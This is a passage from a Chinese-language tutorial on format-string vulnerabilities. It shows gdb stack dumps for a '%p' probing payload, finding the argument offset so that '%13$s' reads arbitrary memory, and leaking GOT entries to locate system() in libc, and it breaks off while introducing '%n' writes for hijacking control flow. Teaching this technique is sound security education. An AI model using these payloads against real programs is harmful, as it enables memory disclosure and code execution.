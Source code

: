 还是上面的程序，我们输入 %4$s ，输出的 arg4 就变成了 ABCD 而不是地址 0xffffd57a 。

上面的例子只能读取栈中已有的内容，如果我们想获取的是任意的地址的内容，就需要我们自己将地址写入到栈中。

我们输入"AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p .%p.%p.%p.%p.%p.%p" 这样的格式的字符串，观察一下栈有什么变化。

```c
[------------------------------------stack------------------------------------]
0000|	0xffffd550	-->	0xffffd584	("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.% p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0004|	0xffffd554	-->	0x1
0008|	0xffffd558	-->	0x88888888
0012|	0xffffd55c	-->	0xffffffff
0016|	0xffffd560	-->	0xffffd57a	("ABCD")
0020|	0xffffd564	-->	0xffffd584	("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.% p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0024|	0xffffd568	("	RUV\327UUVT\332\377\367\001")
0028|	0xffffd56c	-->	0x565555d7	(<main+26>:	add ebx,0x1a29)
[-----------------------------------------------------------------------------]
```

格式字符串的地址在 0xffffd584 ，从下面的输出中可以看到它们在栈中是怎样排布的：

```c
gdb-peda$	x/20w	$esp
0xffffd550:	0xffffd584	0x00000001	0x88888888	0xffffffff 
0xffffd560:	0xffffd57a	0xffffd584	0x56555220	0x565555d7
0xffffd570:	0xf7ffda54	0x00000001	0x424135d0	0x00004443
0xffffd580:	0x00000000	0x41414141	0x2e70252e	0x252e7025
0xffffd590:	0x70252e70	0x2e70252e	0x252e7025	0x70252e70 
```

程序输出：AAAA.0x1.0x88888888.0xffffffff.0xffffd57a.0xffffd584.0x56555220.0x565555d7.0xf7ffda54.0x1.0x424135d0.0x4443.(nil).0x41414141.0x2 e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e

0x41414141 即AAAA，是输出的第 13 个字符，所以我们使用 `%13$s` 即可读出 0x41414141 处的内容，当然，这里可能是一个不合法的地址。我们只要把 0x41414141 换成我们需要查看的合法的地址就可以通过计算偏移 (0xffffd550-->0xffffd584) 得到是第13个”参数“，然后利用`%13$s` 来读出其内容了。

这就达到了读取任意地址内容的目的。当然这也没有什么用，我们真正经常用到的地方是：把程序中某函数的 GOT 地址传进去，然后获得该地址所对应的函数的虚拟地址。然后根据函数们在 libc 中的相对位置，计算出我们需要的函数地址（如 system() ）。



#### 覆盖栈内容

现在我们已经可以读取栈上和任意地址的内存了，接下来我们更进一步，通过修改栈和内存来劫持程序的执行流程。%n 转换指示符将 %n 之前已经成功写入流或缓冲区中的字符个数存储到地址由参数指定的整数中。

例如：

```c
//程序源码
#include <stdio.h>
void main(){
	int	i;
	char str[] = "hello";
	printf("%s %n\n", str, &i);
	printf("%d\n", i);
}
//编译运行输出
hello
6
```
